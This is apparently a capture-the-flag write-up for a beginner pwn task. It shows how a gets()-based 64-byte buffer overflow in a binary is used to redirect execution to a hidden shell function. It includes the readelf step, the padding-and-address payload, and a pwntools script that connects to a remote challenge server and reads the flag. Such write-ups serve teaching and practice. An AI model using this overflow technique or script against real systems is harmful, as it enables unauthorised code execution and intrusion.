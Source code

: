 # Main idea

It is pwn task where we need to send payload that performs buffer overflow attack. We have binary elf file that we can reverse.
# Solution

To reverse the program i used Ghidra.
From decompiled main function we can see:

![](../../attachments/Pasted%20image%2020240115141509.png)

It creates buffer 64 bytes long. And waits our input using `gets()` function. It is usual function for pwn tasks, it is vulnarable for buffer overflow. It means that the function doesnt check the length of the input and overwrites the memory if input more than 64 bytes.

Additionally we can see `shell` function, it is not called in program:

![](../../attachments/Pasted%20image%2020240115141904.png)

But, with buffer overflow we can call it.

Firstly, we need to know what is address of the `shell` function. We can do this with command:

```sh
readelf -s basic-overflow 
```

And we can see the offset(address) of the functions:

![](../../attachments/Pasted%20image%2020240115142101.png)

The `shell`'s adress is `0000000000401136` and now we can write payload that overwrites the memory and calls shell function.

Our first payload:

```sh
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0000000000401136
```

If you try this, buffer would indeed overwrited but the function will not called, because of scepific address handling in stack. We should rewrite address to little endian format:

`\x36\x11\x40\x00\x00\x00\x00\x00`

And if you try to inject payload with memory like above, it will fail because it will not represent like bytes. So use python's pwn library.

```python
import pwn

r = pwn.remote('34.123.15.202', 5000)
# r = pwn.process('./basic-overflow')

# b"A" * (64 + 8) + b"\x00" * 4 + b"\x36\x11\x40"
r.sendline(b"A" * (64 + 8)  + b"\x36\x11\x40\x00\x00\x00\x00\x00")
r.sendline(b"cat flag")
res = r.recvline()

print(res)
```

And boom, get the flag

![](../../attachments/Pasted%20image%2020240115142819.png)
